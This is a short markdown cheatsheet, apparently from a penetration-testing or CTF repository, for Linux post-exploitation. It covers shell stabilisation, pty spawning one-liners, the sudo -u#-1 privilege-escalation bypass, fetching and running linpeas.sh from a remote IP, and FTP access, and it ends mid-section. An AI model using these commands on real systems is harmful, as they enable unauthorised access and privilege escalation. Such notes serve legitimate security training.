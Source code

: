 ```yaml
---
title: "Cheatsheet"
---
```

## Linux
For complete enumeration tricks, go [here](https://book.hacktricks.xyz/).

### Stablilize Shell
1. ctrl+z
2. stty raw -echo
3. fg (press enter x2)
4. export TERM=xterm , for using `clear` command

### Spawn bash
* `/usr/bin/script -qc /bin/bash 1&>/dev/null`
* `python -c 'import pty;pty.spawn("/bin/bash")'`
* `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Vulnerable sudo (ALL,!root)
- `sudo -u#-1 whoami`<br />
- `sudo -u#-1 <path_of_executable_as_other_user>`

### Linpeas
```bash
$ wget 10.11.25.205:8080/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh > linlog.txt
$ less -R linlog.txt
```

### Execute as diffent user
```bash
$ sudo -u <user> <command>
```

### FTP
- Connect to ftp on the machine

    ```bash
    $ ftp user <ip>
    $ ftp <ip>
    ```

- Download files:

    ```bash
    # Download all files
    ftp> mget *
